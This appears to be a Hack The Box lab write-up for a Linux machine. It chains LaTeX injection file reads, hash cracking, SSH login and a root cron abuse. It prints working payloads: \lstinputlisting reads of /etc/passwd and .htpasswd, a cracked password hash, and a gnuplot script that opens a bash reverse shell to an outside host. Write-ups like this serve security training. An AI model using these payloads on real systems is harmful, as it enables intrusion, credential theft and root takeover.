---
tags:
  - box
platform: HTB
os: Linux
difficulty:
date_completed:
mitre_attack: T1190, T1552.001, T1110.002, T1053.003
status: rooted
---

## Target

**IP Address:** 10.129.173.197

## Recon

#Nmap

```bash
nmap -T4 -sV -sC -p- -oA targetScan 10.129.173.197
```

#### Findings

| Port | Service | Version |
|---|---|---|
| 22 | SSH | OpenSSH 8.2p1 |
| 80 | HTTP | Apache httpd 2.4.41 |

Port 22 is open for SSH, port 80 is open for HTTP.


The web page seems to be the website for a university topology group. There are a few links on the web page but only one of them actually works - the rest take you back to the homepage. The working link is `latex.topology.htb`.

I added this to my /etc/hosts file and got to the page.


## Enumeration

The page says that it will allow you to put an equation into a box and then output a PNG that you can save.



When you add anything to the text box and hit generate, it makes a PNG of what you entered. Looking at the URL, it puts variables in the URL to generate the PNG: `eqn=` & `submit=`.

Looking into the LaTeX language, I found some built-in commands to try. The `\today` command output today's date; trying RCE-style commands gave an "illegal command" error.





After researching LaTeX injection: https://book.hacktricks.xyz/pentesting-web/formula-doc-latex-injection

## Exploitation

I found the site is using a package called `listings` by reviewing the files in the base directory of latex.topology.htb and finding the `header.tex` file. Using this listings package and the HackTricks page, I crafted a usable injection:

```latex
$\lstinputlisting{/etc/passwd}$
```

This returned an image of the passwd file and revealed the users on the machine.



Found the one real user on the machine: `vdaisley`. Tried to find more useful files (config, passwd) at `/var/www/latex` and `/var/www`, but got nothing.

### Further Recon

Went back to do some virtual host fuzzing to look for more subdomains.

#Ffuf

```bash
sudo ffuf -v -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://topology.htb -H "Host: FUZZ.topology.htb" -fs 6767
```

Returned two results: `stats` and `dev`. Stats is a common default page; `dev` (giving a 401) looked more promising - navigating to it gives a login popup.





### More Enumeration

Rather than brute forcing the login, used the LFI to search for the password file and Apache config for this vhost. The default Apache config file name/location is `/etc/apache2/{apache2.conf|httpd.conf}`.

```latex
$\lstinputlisting{/etc/apache2/apache2.conf}$
```



Found the `AccessFileName` variable, which sets what file Apache looks for in each page directory for further config (i.e. `.htaccess`).

```latex
$\lstinputlisting{/var/www/dev/.htaccess}$
```



This revealed `AuthUserFile`, telling us where the auth file lives: `/var/www/dev/.htpasswd`.

```latex
$\lstinputlisting{/var/www/dev/.htpasswd}$
```

This returned a username and hashed password for `vdaisley`:

```
vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
```


Used hash-identifier to confirm it's an MD5(APR) hash, then cracked it with Hashcat:

```bash
hashcat -a 0 hashes.hash /usr/share/wordlists/rockyou.txt
```



Logged in to the dev site with the recovered credentials, then used the same creds over SSH.




User flag captured after SSH login as vdaisley:



## Privilege Escalation

`sudo -l` showed no sudo rights at all. LinPEAS didn't find anything new.

#pspy

```bash
./pspy64
```



Found a job running that looks for all files with the extension `.plt` in `/opt/gnuplot` and runs them. Could `cd` into the folder but not `ls` it (no read), though it was writable.

Researched gnuplot and found it's a Linux command-line utility for 2D/3D graphs that uses `.plt` files. Found a technique for running system commands through it: https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/gnuplot-privilege-escalation/

Since root runs everything dropped in that folder, wrote a `.plt` script to get a reverse shell as root:

```gnuplot
system "whoami"

# Reverse shell
system "bash -c 'bash -i >& /dev/tcp/10.10.14.100/4444 0>&1'"
```

```bash
cp revShell.plt /opt/gnuplot
nc -lvnp 4444
```

Root shell captured:



## Flags

**User:** captured via SSH login as vdaisley (see above)

**Root/System:** captured via the gnuplot `.plt` cron abuse above

## Lessons Learned

LaTeX's `\lstinputlisting{}` (from the `listings` package) is effectively an arbitrary file read primitive if user input reaches a LaTeX compiler - chained here from `/etc/passwd` all the way to an `.htpasswd` file that gave real SSH credentials. On the privesc side: any world-writable directory that's periodically scanned/executed by a root cron job (gnuplot `.plt` files here) is a privesc path the moment you can write to it - `pspy` is the tool that surfaces these silently-running jobs when you have no visibility via `crontab -l`.
